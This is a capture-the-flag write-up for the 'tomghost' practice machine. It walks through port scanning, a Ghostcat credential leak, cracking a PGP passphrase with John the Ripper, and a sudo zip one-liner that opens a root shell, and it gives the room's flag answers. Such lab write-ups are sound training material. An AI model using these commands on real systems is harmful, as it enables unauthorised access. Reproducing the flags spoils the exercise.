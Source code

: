 # tomghost

Discover recent vulnerabilities to attempt exploiting the system or accessing files that you shouldn't be able to view.

IP address: 10.10.204.127

## Nmap Scan
Run the following Nmap scan to gather information about open ports and services:

```
nmap -sC -sV -oN initial.log 10.10.204.127
```

The Nmap scan results show the following open ports and services:

- **22/tcp**: OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (SSH)
- **53/tcp**: tcpwrapped
- **8009/tcp**: Apache Jserv (Protocol v1.3)
- **8080/tcp**: Apache Tomcat 9.0.30 (HTTP)

## Task 1

Use the Nikto scanner to detect vulnerabilities on the HTTP service:

```
nikto -h http://10.10.204.127 | tee nikto.log
```

Based on the Nmap scan, we can see that Apache Tomcat 9.0.30 is running on port 8080. After researching vulnerabilities, I used a script (`vulnerability.py`) to exploit the service and obtain credentials (CVE-2020-1938). The script revealed the following:

```xml
<display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>
```

Using these credentials, I logged into the machine and retrieved the first flag from `/home/merlin/user.txt`. As the current user lacked root permissions, I investigated the `skyfuck` user to check for potential privilege escalation opportunities.

### Analyzing Files
In `/home/skyfuck`, I found two files: an encrypted PGP file and its associated key (protected by a password). To decrypt the file, I used John the Ripper:

```
/snap/john-the-ripper/current/run/gpg2john tryhackme.asc > hashes-for-john.txt
/snap/john-the-ripper/current/run/john --wordlist=/usr/share/wordlists/rockyou.txt hashes-for-john.txt
```

Output:
```
alexandru        (tryhackme)
```

After obtaining the password, I decrypted the file:

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

Decrypted credentials:
```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Using `merlin`'s credentials, I accessed the system via SSH. Upon investigation, I discovered that `merlin` could execute the `zip` binary with root privileges. Using GTFOBins, I escalated privileges to root:

```
sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Privilege escalation:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

## Questions

1. Compromise this machine and obtain `user.txt`:
    > THM{GhostCat_1s_so_cr4sy}

2. Escalate privileges and obtain `root.txt`:  
    > THM{Z1P_1S_FAKE}
